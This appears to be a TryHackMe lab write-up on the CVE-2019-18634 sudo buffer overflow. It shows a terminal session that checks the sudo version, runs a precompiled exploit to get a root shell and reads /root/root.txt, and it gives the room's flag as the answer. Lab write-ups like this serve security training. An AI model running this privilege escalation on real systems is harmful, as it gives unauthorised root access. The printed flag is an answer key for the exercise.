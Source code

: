 ### CVE-2019-18634 - Sudo Buffer Overflow - Tryhackme 
https://github.com/saleemrashid/sudo-cve-2019-18634 #CVE-2019-18634

- What's the flag in /root/root.txt? - **THM{buff3r_0v3rfl0w_rul3s}**

~~~bash
tryhackme@sudo-bof:~$ sudo -l
[sudo] password for tryhackme:          
Sorry, user tryhackme may not run sudo on sudo-bof.
tryhackme@sudo-bof:~$ cat /etc/suoers
cat: /etc/suoers: No such file or directory
tryhackme@sudo-bof:~$ cat /etc/sudoers
cat: /etc/sudoers: Permission denied
tryhackme@sudo-bof:~$ sudo -V 
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
tryhackme@sudo-bof:~$ cd exploit 
-bash: cd: exploit: Not a directory
tryhackme@sudo-bof:~$ ls
exploit
tryhackme@sudo-bof:~$ ./exploit 
[sudo] password for tryhackme: 
trySorry, try again.
# id
sh: 1: tryid: not found
# id
uid=0(root) gid=0(root) groups=0(root),1000(tryhackme)
# ls
exploit
# cd /root
# ls
root.txt
# cat root.txt
THM{buff3r_0v3rfl0w_rul3s}
~~~
